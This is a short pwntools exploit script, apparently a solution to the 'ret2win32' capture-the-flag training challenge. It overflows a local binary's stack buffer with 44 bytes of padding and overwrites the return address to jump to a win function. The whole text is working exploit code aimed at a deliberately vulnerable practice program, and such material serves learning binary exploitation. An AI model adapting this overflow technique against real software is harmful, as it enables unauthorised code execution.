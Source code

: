# ret2win
  script
  
  #!/usr/bin/python3

  from pwn import *

  p = process("./ret2win32")

  junkdata = b"A" * 44
  addr = p32(0x08048645)

  payload = junkdata + addr
  
  p.sendline(payload)
  p.interactive()
